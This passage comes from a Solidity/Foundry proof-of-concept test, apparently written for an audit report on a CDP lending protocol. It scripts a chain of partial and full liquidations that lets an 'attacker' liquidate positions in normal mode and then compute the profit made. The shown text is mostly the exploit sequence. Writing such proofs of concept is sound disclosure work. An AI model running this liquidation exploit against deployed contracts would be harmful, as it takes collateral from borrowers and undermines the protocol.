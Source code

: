 ```solidity
            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_123ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[2]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_123ICR: ", TCR);
            }

            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 124%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[3], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR: ", TCR);

            isAvailableToLiq = _checkAvailableToLiq(cdpIds[3], price);
            console.log("Is available to liquidate CDP_124ICR? ", isAvailableToLiq);

            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_124ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[3]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_124ICR: ", TCR);

                console.log("There is no CDP (TCR <= ICR < CCR)");
            }

            console.log("-- Now the attacker will liquidate some CDPs (ICR <= TCR) < CCR to earn more money --");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            console.log("CDP_110ICR = ", icr0);
            console.log("- Liquidate CDP_110ICR fully");
            vm.prank(user);
            cdpManager.liquidate(cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR after LiqCDP_110ICR fully: ", TCR);
            console.log("!!!System is in NormalMode liquidating 4 CDPs including the first CDP!!!");

            console.log("\n");

            console.log("Is CDP_110ICR liquidated? ", !sortedCdps.contains(cdpIds[0]));
            console.log("Is CDP_122ICR liquidated? ", !sortedCdps.contains(cdpIds[1]));
            console.log("Is CDP_123ICR liquidated? ", !sortedCdps.contains(cdpIds[2]));
            console.log("Is CDP_124ICR liquidated? ", !sortedCdps.contains(cdpIds[3]));
            console.log("Is CDP_133ICR liquidated? ", !sortedCdps.contains(cdpIds[4]));

            console.log("CDP size: ", sortedCdps.getSize());

            uint256 _stETHBalance = collateral.balanceOf(user);
            uint256 _eBTCBalance = eBTCToken.balanceOf(user);
            uint256 userRevenue = _stETHBalance - stETHBalance - collateral.getSharesByPooledEth(((eBTCBalance - _eBTCBalance) * DECIMAL_PRECISION) / price);
```